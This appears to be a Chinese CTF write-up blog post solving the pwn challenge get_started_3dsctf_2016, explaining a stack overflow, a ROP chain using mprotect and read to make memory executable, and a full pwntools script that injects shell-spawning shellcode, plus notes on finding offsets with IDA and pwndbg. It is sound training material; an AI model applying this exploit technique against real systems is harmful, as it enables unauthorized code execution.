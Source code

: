 <!--yml
category: 未分类
date: 2022-04-26 14:50:53
-->

# get_started_3dsctf_2016 1_一路开花●-●的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_41560595/article/details/114982378](https://blog.csdn.net/qq_41560595/article/details/114982378)

又是被暴击的一天。
![在这里插入图片描述](img/c66c86d165a5817ef29e7c0aa9aef048.png)

### 查看文件权限

![在这里插入图片描述](img/1d427b48495a11685cf651cd57a917a3.png)
可以栈溢出，地址写死了。

### 查看源程序

![在这里插入图片描述](img/d71ee650a72602d3fe37ea387a2403f1.png)
还是个静态文件，首先想到可以使用Gadget。

### 分析

存在一个mprotect函数：

```
#include <unistd.h>
#include <sys/mmap.h>
int mprotect(const void *start, size_t len, int prot); 
```

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。
prot代表着 r-w-x。那么可读可写可执行就是7。

这道题参考一个博客的思路，把一块内存属性利用这个函数改成可读可写可执行，再把shellcode写进去，拿到权限。

**首先查看哪块内存地址较为合适：**
![在这里插入图片描述](img/281e9767ac40222da2e3726898c0b00a.png)
这几块区域中，第二个既是二进制文件范围，又是r-w权限，所以比较合适。
查看IDA中范围：
![在这里插入图片描述](img/1ac7ce58fa11de61fad57ecf980d6b4d.png)

选择0x80EB000。

**构造payload**

由于mprotect需要三个参数，我们可以查找合适的gadget。
![在这里插入图片描述](img/cddaece7bd36fd0dd2915f768163fd24.png)
只要有三个寄存器就行，这里选择0x0804f460。

构造栈图：
![在这里插入图片描述](img/dafe8ecd27c29f61d4315bf223557b38.png)
最初会有两个步骤leave和ret，执行完这两个后，指针如下：
![在这里插入图片描述](img/c43a0fc1c4b3a1dc603e15ddb5fbe2da.png)
eip执行mprotect函数，而esp指向gadget。在mprotect最后会有ret，执行ret时esp内容弹到eip上，esp向下退一格：
![在这里插入图片描述](img/7663792c8b8dc4930172030b56abf81a.png)
此时，eip会执行这个gadget，esp会依据gadget内容把三个参数（0x80EB000,0x100,7）弹到对应的寄存器上。弹完3个寄存器后如下图：
![在这里插入图片描述](img/d173d61ab8ca6486f580dc831fcf52de.png)
但是gadget最后还有一个ret命令，使得esp内容弹到eip上，esp下降一格：
![在这里插入图片描述](img/59c2c2a4f2fa26a1163dd4a3e7403f1d.png)
这时就要开始执行read函数了，下面的分析和刚才类似。。是把三个参数(0,0x80EB000，0x100)弹到寄存器上。read放在这里是让shellcode能够写入到内存区域0x80EB000中。
最后写完，就可以执行0x80EB000中的shellcode了。

### 题解代码

```
from pwn import *

p=remote("node3.buuoj.cn",28368)
elf=ELF("./get_started_3dsctf_2016")
mprotect=elf.symbols["mprotect"]
memaddr=0x80EB000
gadget=0x804f460
read=elf.symbols["read"]

payload1= b"A"*0x38+p32(mprotect)+p32(gadget)+p32(memaddr)+p32(0x100)+p32(0x7)
payload1+= p32(read)+p32(gadget)+p32(0)+p32(memaddr)+p32(0x100)+p32(memaddr)

p.sendline(payload1)
payload2=asm(shellcraft.sh(),arch='i386',os='linux')

p.sendline(payload2)

p.interactive() 
```

### 大功告成

![在这里插入图片描述](img/cd37fb1d3a8c13fe4f4551618da0b5b9.png)

参考博客：
[https://www.cnblogs.com/lyxf/p/12113401.html](https://www.cnblogs.com/lyxf/p/12113401.html) 写的确实很好。
[https://blog.csdn.net/roland_sun/article/details/33728955](https://blog.csdn.net/roland_sun/article/details/33728955)

2021/3/26 补：

在计算长度的时候，IDA也会出错，在计算v4位置时，就出错了：
![在这里插入图片描述](img/7aa9626126ee3130f23876ceb574ce82.png)
把v4点进去，发现只有返回值r和三个参数，ebp的长度4已经包含进0x38了。
![在这里插入图片描述](img/f4d1650e20c12ac09bdf03d11084a96a.png)
而正常的栈里都是包括ebp的，(用符号s表示)：
![在这里插入图片描述](img/10a7d2ea20d492c21b319834a07ec870.png)
<mark>2021/3/31 补：</mark>

用gdb计算偏移：
我用的是pwndbg

先cyclic 200，生成一个长度为200的字符串。复制。
在gdb内：

**disass main**
![在这里插入图片描述](img/758e04b7e0e2a9854ff253d976e039d7.png)
注意到gets函数是在第+22的位置。下断点：
b *main+22，r运行。
ni不停回车回车。。。直到出现这么一句:
![在这里插入图片描述](img/d8e48e575504d4d457a57d9eaa0476a4.png)
不要回车，直接把刚才的字符串粘进去。再不停回车。。。
记不清按了多少次。。出现
![在这里插入图片描述](img/6e3e414abc349b00274dd2c6771301c8.png)
cyclic -l 0x6161616f，出现偏移：
![在这里插入图片描述](img/585b4b8522ac309361fabcb781cfbc75.png)
得出答案。综上，gdb计算偏移有时太麻烦，比如这道题。还是直接从IDA看栈图更方便些。

![在这里插入图片描述](img/cef5f341f34174cffcd6ec9d492b77ef.png)